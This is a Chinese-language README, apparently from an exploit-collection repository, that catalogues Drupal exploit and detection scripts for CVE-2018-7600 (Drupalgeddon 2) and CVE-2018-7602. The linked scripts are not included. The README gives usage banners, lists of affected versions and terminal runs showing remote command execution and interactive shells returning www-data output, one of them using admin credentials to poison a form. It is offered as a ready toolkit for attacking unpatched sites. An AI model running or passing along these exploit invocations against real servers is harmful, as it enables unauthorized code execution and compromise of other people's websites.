 # About Drupal
Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由内容管理系统（CMS）和PHP开发框架（Framework）共同构成。连续多年荣获全球最佳CMS大奖，是基于PHP语言最著名的WEB应用程序。截止2011年底，共有13,802位WEB专家参加了Drupal的开发工作；228个国家使用181种语言的729,791位网站设计工作者使用Drupal。著名案例包括：联合国、美国白宫、美国商务部、纽约时报、华纳、迪斯尼、联邦快递、索尼、美国哈佛大学、Ubuntu等。

# Vulnerability list
[**cve-2018-7600_cmd.py**](https://github.com/zhzyker/exphub/tree/master/drupal) Drupal Drupalgeddon 2 远程代码执行漏洞利用脚本[[使用]](https://freeerror.org/d/426) 
[**cve-2018-7600_poc.py**](https://github.com/zhzyker/exphub/tree/master/drupal) 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600 
[**cve-2018-7602_cmd.py**](https://github.com/zhzyker/exphub/tree/master/drupal) Drupal 内核远程代码执行漏洞利用脚本(需要账户密码) 
[**cve-2018-7602_poc.py**](https://github.com/zhzyker/exphub/tree/master/drupal) 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600 

# Readme
部分脚本文件使用说明，详细使用分析请参考[vulnerability-list](https://github.com/zhzyker/exphub/tree/master/drupal#vulnerability-list)中的[使用]
- VER: 漏洞影响版本，一般情况下不在影响范围的版本没有相关漏洞
- USE: 脚本文件使用说明，大部分写在了脚本里，执行即可见
- EXP: 脚本利用示例，以及执行效果
- DES: 部分特殊脚本文件的特殊描述



**脚本内容在github获取**



## CVE-2018-7600_cmd.py	Drupal Drupalgeddon 2 远程代码执行漏洞利用脚本
> USE:
> ```
> +----------------------------------------------------------------------+
> + DES: by zhzyker as https://github.com/zhzyker/exphub                 +
> +      Drupal Drupalgeddon 2 远程代码执行 CVE-2018-7600                +
> +----------------------------------------------------------------------+
> + USE: python3 <filename> <url>                                        +
> + EXP: python3 cve-2018-7600_cmd.py http://1.1.1.1:8080                +
> + VER: Drupal 6.x                                                      +
> +      Drupal 7.x < 7.58                                               +
> +      Drupal 8.3 < 8.3.9                                              +
> +      Drupal 8.4 < 8.4.6                                              +
> +      Drupal 8.5 < 8.5.1                                              +
> +----------------------------------------------------------------------+
> + DES: Shell仅能回显一行代码，多行代码结果查看http://xxxx/exphub.txt   +
> +----------------------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:$ python3 cve-2018-7600_cmd.py http://freeerror.org:8080
> [+] http://freeerror.org:8080/exphub.txt
> 
> Shell >>> id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> Shell >>> whoami
> www-data
> Shell >>> exit
> ```

## CVE-2018-7600_poc.py	该脚本可检测 CVE-2018-7602 和 CVE-2018-7600
> EXP:
> ```
> zhzy@debian:$ python3 cve-2018-7600_poc.py http://freeerror.org:8081
> 
> +------------------------------------------------------------------+
> +                           iDrupal                                +
> +                          by IAmG0d                               +
> +------------------------------------------------------------------+
> + USE: python3 <filename> <url>                                    +
> + EXP: python3 cve-2018-7602_poc.py http://freeerror.org:8081      +
> +------------------------------------------------------------------+
> + DES: 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600                 +
> +------------------------------------------------------------------+
> 
> [~] Checking the version of http://freeerror.org:8081/
> [+] Possibly vulnerable to CVE-2018-7600!
> [+] Possibly vulnerable to CVE-2018-7602!
> [0:)] Thank You For Using... Goodbye
> ```

## CVE-2018-7602_cmd.py	Drupal 内核远程代码执行漏洞利用脚本(需要账户密码)
> EXP:
> ```
> zhzy@debian:/debian/archives-tool/web-drupal$ python cve-2018-7602_cmd.py admin admin http://freeerror.org:8080 -c id
> ()
> +---------------------------------------------------------------------------------+
> +   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     +
> +                                   by pimps                                      +
> +---------------------------------------------------------------------------------+
> + USE: python3 <filename> <username> <password> <url> -c <command>                +
> + EXP: python3 cve-2018-7602_cmd.py admin admin http://1.1.1.1:8080 -c "id"       +
> + VER: Drupal 7.x < 7.59                                                          +
> +      Drupal 8.4 < 8.4.8                                                         +
> +      Drupal 8.5 < 8.5.3                                                         +
> +---------------------------------------------------------------------------------+
> + DES: CVE-2018-7602 Need Username Password                                       +
> +---------------------------------------------------------------------------------+
> 
> [*] Creating a session using the provided credential...
> [*] Finding User ID...
> [*] User ID found: /user/1
> [*] Poisoning a form using 'destination' and including it in cache.
> [*] Poisoned form ID: form-6iAq8Ou5pKFQqEZ4sh1A_zQI_5QMSC71Stp4ohaseW0
> [*] Triggering exploit to execute: id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> ```
